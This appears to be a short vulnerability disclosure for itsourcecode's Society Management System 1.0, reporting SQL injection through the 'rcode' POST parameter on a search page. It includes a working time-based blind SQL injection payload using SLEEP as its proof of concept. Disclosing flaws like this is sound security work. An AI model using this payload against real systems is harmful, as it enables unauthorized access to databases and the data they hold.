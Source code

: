 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

The rcode parameter can be passed in for querying on the "search.chp" page, but due to the code's lax filtering of this parameter, it can lead to SQL injection.
<img width="1098" alt="image" src="https://github.com/user-attachments/assets/aa5fce7c-660e-441c-a3d0-42f00c93639f">

# Poc
```
Parameter: rcode (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: rcode=1' AND (SELECT 7363 FROM (SELECT(SLEEP(5)))sBIE) AND 'vFRq'='vFRq
```
